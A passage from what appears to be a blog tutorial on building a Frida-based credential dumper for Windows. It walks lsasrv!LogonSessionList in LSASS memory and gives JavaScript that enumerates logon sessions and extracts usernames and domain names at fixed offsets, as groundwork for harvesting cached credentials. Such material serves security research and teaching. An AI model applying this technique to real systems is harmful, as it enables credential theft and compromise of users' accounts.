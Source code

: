 That's an intimidating struct! Don't worry, we won't need all of it. This struct represents a single cached credential in the linked list. We want all of the credentials, so the first order of business is to enumerate the address of every other element in the list. The *Flink* variable, a pointer to the next element in the list, is the very first member, so this is an easy job:

```javascript
function getLogonSessions(ptr, max) {
	// Given a pointer to lsasrv!LogonSessionList, enumerate the address of all logon sessions that it contains.
	// LogonSessionList is a simple linked list, so the first element of each entry is a pointer to the next one.
	var sessions = [];
	var current = ptr;
	
	for (var i = 0; i < max; i++) {
		sessions.push(current.toString());
		current = current.readPointer();
		if (sessions.includes( current.toString() )) {
			i = max
		}
	}
	
	return sessions;
}
```

This will allow us to turn our pointer to *LogonSessionList* into an array of pointers, each pointing to a specific session. Now we need to parse the actual data out of them. This may seem daunting, but we only actually care about a few bits of information: the *UserName*, *DomainName* and *Credentials* variables.

The *UserName* and *DomainName* are simple. They are both of type *UNICODE_STRING*, and we dealt with those in part 1. It's trivial to write a simple parser to extract each value:

```javascript
function getUsernameFromLogonSession(ptr) {
	// Given a pointer to a LogonSession, extract the username (a UNICODE_STRING).
	var usernamePtr = ptr.add(0x90);
	var len = usernamePtr.readUShort();
	var usernameBuffer = usernamePtr.add(0x8).readPointer();
	var username = usernameBuffer.readUtf16String(len);
	return username;
	
}

function getDomainFromLogonSession(ptr) {
	// Given a pointer to a LogonSession, extract the domain (a UNICODE_STRING).
	var domainPtr = ptr.add(0xa0);
	var len = domainPtr.readUShort();
	var domainBuffer = domainPtr.add(0x8).readPointer();
	var domain = domainBuffer.readUtf16String(len);
	return domain;
}
```
